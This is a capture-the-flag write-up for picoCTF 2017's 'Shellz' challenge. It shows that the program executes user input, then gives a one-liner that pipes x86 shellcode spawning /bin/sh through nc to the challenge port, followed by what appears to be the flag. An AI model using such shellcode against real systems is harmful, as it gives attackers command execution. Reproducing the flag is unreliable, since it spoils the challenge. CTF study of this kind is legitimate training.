 ## Shellz - 55

### Description

You no longer have an easy thing to call, but you have more space. Program: [shellz](./shellz)! [Source](./shellz.c). Connect on shell2017.picoctf.com:34621.

### Hint

  - There is a bunch of preexisting shellcode already out there!

### Write up

    int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);

The pragram reads user input, saves it to `stuff` buffer.

    void (*func)() = (void (*)())stuff;

And executes the `stuff` buffer.

So we need to write a shellcode in the `stuff` buffer.

    $ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'; cat) | nc localhost 34621

You need to appen
d `cat` command after shellcode, in order not to exit program after executing shellcode.

> f6f01bf0649b5aa5ec299bb51c8f8db4
